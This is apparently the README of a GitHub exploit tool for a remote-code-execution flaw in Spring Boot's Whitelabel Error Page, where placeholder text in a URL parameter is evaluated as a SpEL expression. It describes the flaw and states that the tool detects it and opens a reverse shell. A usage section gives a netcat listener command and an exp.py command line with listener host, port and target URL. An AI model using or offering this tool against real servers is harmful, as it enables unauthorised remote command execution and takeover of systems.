


# SpringBoot-whitelabel-error-rce EXP
[中文README_CN.md](README_CN.md)  
---

## Vulnerability Intro
1. There is an error in spring boot processing parameter value, and the process enters the `org.springframework.util.PropertyPlaceholderHelper` class

2. At this time, the parameter value in the URL will be parsed recursively using the `parseStringValue` method.

3. The content surrounded by `${}` will be parsed and executed as a SpEL expression by the `resolvePlaceholder` method of the `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` class, causing an RCE vulnerability.

---

## EXP Intro
Through this EXP, you can determine whether the vulnerability exists and rebound the shell.

First, for example, when accessing `/article?id=xxx`, the page will report an error with status code `500`: `Whitelabel Error Page`, you can use the current `POC & EXP` to try

---

## How to use
```shell
nc -lvvp 8088
python3 exp.py -lhost 127.0.0.1 -lport 8088 -t  "http://127.0.0.1:9091/article?id="
```
> -lhost: The listening host  
  -lport: The listening port  
  -t: The target URL(**Notice: Need to include host, port, path and parameter.**)

  
